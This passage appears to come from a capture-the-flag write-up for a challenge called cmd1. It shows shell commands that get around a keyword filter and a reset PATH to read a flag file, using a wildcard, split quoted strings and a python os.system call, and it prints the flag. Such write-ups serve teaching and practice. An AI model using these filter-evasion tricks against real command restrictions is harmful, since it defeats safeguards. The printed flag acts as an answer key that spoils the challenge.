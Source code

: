Program set env to a unknown location.

So, we just cannot use **cat**, it should be **/bin/cat**.

We can use wildcard to bypass. 

```shell
./cmd1 "/bin/cat f***"
```

Or, concatenate strings.

```shell
./cmd1 "/bin/cat 'fla''g'"
```



![image-20220717035319524](assets/image-20220717035319524.png)

Or, use python

```shell
./cmd1 "/usr/bin/python"
import os
os.system("/bin/cat flag")
```

![image-20220717041034625](assets/image-20220717041034625.png)

And other ways...

flag is **mommy now I get what PATH environment is for :)**

### cmd2
